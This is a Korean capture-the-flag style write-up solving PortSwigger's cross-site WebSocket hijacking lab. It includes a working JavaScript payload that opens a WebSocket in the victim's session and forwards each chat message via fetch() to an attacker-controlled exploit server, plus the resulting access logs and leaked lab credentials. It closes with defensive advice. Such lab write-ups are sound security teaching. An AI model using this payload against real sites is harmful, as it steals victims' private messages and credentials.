


+++
url = '/write-up/portswigger/websocket/write-up-portswigger---cross-site-websocket-hijacking/'
date = '2026-06-12T12:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Cross-site WebSocket hijacking'
summary = "CSRF 토큰 없이 쿠키만으로 인증되는 WebSocket 핸드셰이크를 교차 사이트에서 열어, 피해자의 챗 기록과 자격 증명을 유출하는 CSWSH 풀이"
toc = true
tags = ["WebSocket", "CSWSH", "CSRF", "Credential Theft", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

> 

WebSocket으로 구현된 라이브 챗 기능이 있는 온라인 쇼핑몰이다. Cross-Site WebSocket Hijacking(CSWSH) 공격으로 피해자의 챗 기록을 유출하고, 그 안에 노출된 자격 증명으로 피해자 계정에 로그인하면 문제가 해결된다.

### CSWSH 진단

라이브 챗 기능에 접근하면 다음과 같은 WebSocket 핸드셰이크 요청이 발생한다.

```http
GET /chat HTTP/2
Host: <lab-id>.web-security-academy.net
Connection: Upgrade
Upgrade: websocket
Origin: https://<lab-id>.web-security-academy.net
Sec-Websocket-Version: 13
Sec-Websocket-Key: p59S/LUiJ5jbtWjxACElwQ==
Cookie: session=<session>
```

세션 식별에 사용되는 값은 `session` 쿠키뿐이며, CSRF 토큰이나 그 밖의 예측 불가능한 값은 포함되지 않는다. 또한 이 쿠키는 `SameSite=None`으로 설정되어 있어 교차 사이트 요청에도 자동으로 첨부된다.

즉 공격자가 만든 페이지에서 이 엔드포인트로 WebSocket을 열면, 브라우저가 피해자의 세션 쿠키를 붙여 핸드셰이크를 수행하므로 피해자 세션으로 연결이 수립된다. 일반적인 CSRF와 달리 WebSocket은 양방향 통신이므로, 요청을 보내는 것에서 끝나지 않고 서버가 돌려주는 응답까지 읽을 수 있다.

---

## 익스플로잇

피해자 세션으로 WebSocket을 열고, 수신한 메시지를 공격자 서버로 전달하는 페이로드를 구성한다. 챗 기능은 연결 직후 `READY` 메시지를 받으면 이전 대화 내역을 다시 전송한다.

```html
<script>
let newWebSocket = new WebSocket('wss://<lab-id>.web-security-academy.net/chat');
newWebSocket.onopen = function (evt) {
    newWebSocket.send("READY");
}
newWebSocket.onmessage = function (evt) {
    fetch("https://<exploit-id>.exploit-server.net/" + evt.data);
}
</script>
```

이 페이로드를 Exploit Server에 올려 피해자에게 전달하면, 수신한 메시지가 요청 경로에 실려 접근 로그에 기록된다.

```text
10.0.3.52  2026-07-30 08:16:32 +0000 "GET /%7B%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) ..."
10.0.3.52  2026-07-30 08:16:32 +0000 "GET /%7B%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22%7D HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) ..."
```

URL 디코딩한 메시지 내역은 다음과 같다.

```json
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it's g2161d0ktm4eivm1j6d0"}
{"user":"You","content":"Thanks, I hope this doesn't come back to bite me!"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

비밀번호 재설정 과정에서 상담원이 평문으로 알려준 `carlos:g2161d0ktm4eivm1j6d0` 자격 증명을 확인할 수 있다. 이 계정으로 로그인하면 문제가 해결된다.



---

## 정리

CSWSH는 WebSocket 핸드셰이크에 존재하는 CSRF 취약점이다. 핸드셰이크가 쿠키만으로 인증되고 CSRF 토큰이나 `Origin` 검증이 없다면, 공격자 페이지에서 연 연결이 그대로 피해자 세션으로 수립된다.

일반적인 CSRF는 요청을 보낼 수만 있어 응답을 읽지 못하는 경우가 많지만, CSWSH는 연결이 유지되는 양방향 채널을 얻는다는 점이 결정적으로 다르다. 따라서 피해자를 대신해 권한 있는 행위를 수행하는 것뿐 아니라, 이 랩처럼 서버가 보내는 민감한 데이터를 그대로 읽어낼 수 있다.

방어는 핸드셰이크 요청 자체를 CSRF로부터 보호하는 것이다. 예측 불가능한 토큰을 핸드셰이크에 포함시키고, 서버에서 `Origin` 헤더를 허용 목록과 비교해 검증하며, 세션 쿠키에 `SameSite` 속성을 적용해 교차 사이트 요청에 쿠키가 실리지 않게 해야 한다. 더불어 이 랩은 챗 기록처럼 오래 유지되는 데이터에 자격 증명이 남아 있는 것 자체가 피해를 키운다는 점도 함께 보여준다.
